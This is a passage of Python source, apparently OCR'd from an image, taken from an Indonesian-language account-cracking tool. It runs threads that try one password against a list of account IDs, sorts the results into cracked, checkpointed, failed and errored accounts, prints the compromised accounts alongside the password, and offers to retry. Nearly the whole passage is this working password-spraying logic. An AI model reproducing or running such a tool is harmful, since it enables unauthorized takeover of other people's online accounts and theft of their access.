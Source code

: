 	tampil('\rh[*]MengCrack \rk%d Akun \rhdengan sandi \rm[\rk%s\rm]'%(len(data),sandi))
	print('\033[32;1m[*]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m',end='')
	os.sys.stdout.flush()
	akun_jml = []
	akun_sukses = []
	akun_cekpoint = []
	akun_error = []
	akun_gagal = []
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		if len(i) != 0:th.append(mt(i,sandi))
	for i in th:
		jml1 += 1
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	while 1:
		try:
			for i in th:
				a = i.update()
				if a[0] != 3 and a[1] not in akun_jml:
					jml0 += 1
					if a[0] == 2:
						akun_cekpoint.append(a[1])
					elif a[0] == 1:
						akun_sukses.append(a[1])
					elif a[0] == 0:
						akun_gagal.append(a[1])
					elif a[0] == 8:
						akun_error.append(a[1])
					print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m%0.2f%s\033[31;1m]\033[0m'%(float((float(jml0)/float(jml1))*100),'%'),end='')
					os.sys.stdout.flush()
					akun_jml.append(a[1])
		except KeyboardInterrupt:
			os.sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m     ')
	if len(akun_sukses) != 0:
		tampil('\rh[*]Daftar akun sukses')
		for i in akun_sukses:
			tampil('\rh==>\rk%s \rm[\rp%s\rm]'%(i,sandi))
	tampil('\rh[*]Jumlah akun berhasil\rp      %d'%len(akun_sukses))
	tampil('\rm[*]Jumlah akun gagal\rp         %d'%len(akun_gagal))
	tampil('\rk[*]Jumlah akun cekpoint\rp      %d'%len(akun_cekpoint))
	tampil('\rc[*]Jumlah akun error\rp         %d'%len(akun_error))
	if p:
		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi dasar serakah (y/t)',['Y','T'])
		if i.upper() == 'Y':
			return crack(data)
		else:
			return menu()
	else:
		return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?]Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':